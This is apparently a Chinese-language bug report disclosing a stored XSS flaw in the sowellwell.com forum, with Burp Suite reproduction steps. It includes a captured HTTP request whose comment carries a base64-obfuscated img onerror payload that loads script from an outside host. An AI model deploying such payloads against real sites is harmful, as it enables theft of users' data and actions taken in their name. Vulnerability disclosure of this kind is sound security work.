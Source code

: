 2. 发送XSS评论

        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xx; _sj_web_session_id=_DeA0g039t-
        Content-Length: 997
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/2/4yGt?from=comment
        Accept-Encoding: gzip, deflate
        Accept-Language: ja-JP,ja;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5

        {"path":"/message/apps/uu/server/create_message","method":"POST","params":{"uid":"140250100348","category":"64e4cadffe367318734c6c26","category_name":"64e4cadffe367318734c6c26","content":"占位223<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>\n","extra":"{\"device_name\":\"web\",\"platform\":\"web\",\"posts\":{\"gid\":\"596dd2b6e3a8b2614a13b413\",\"coid\":\"596dd2b6e3a8b2614a13b413\"}}","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uum.fp.ps.netease.com/file/5d3fe7616f04942682c67a4clvtOFQXb02","user_type":1,"extra":"{\"user_title\":{},\"level_info\":{\"level\":2,\"cur_exp\":150,\"battery\":4,\"total_exp\":250}}"},"device":{"device_id":"jssdk_pbRJTpNazMAEeEM2"}},"id":"64e4cadffe367318734c6c26","server_type":1}

## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的发帖和回复存在XSS存储型漏洞，攻击者能够将XSS脚本嵌入PC端浏览器页面和手机端Webview页面，实现信息窃取（手机号，pc和手机端）、代替用户发送任意帖子或评论（pc端）、自动点赞收藏关注等恶意行为。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录深井Web平台`https://sowellwell.com`
2. 发送帖子，用burpsuite截取发帖POST为`https://sowellwell.com/w/v1/community/post/new`
![post](/assets/uu_images/post.png)
3. 将请求发送到burp repeater，修改发帖内容为img onerror触发的弹窗，然后发送
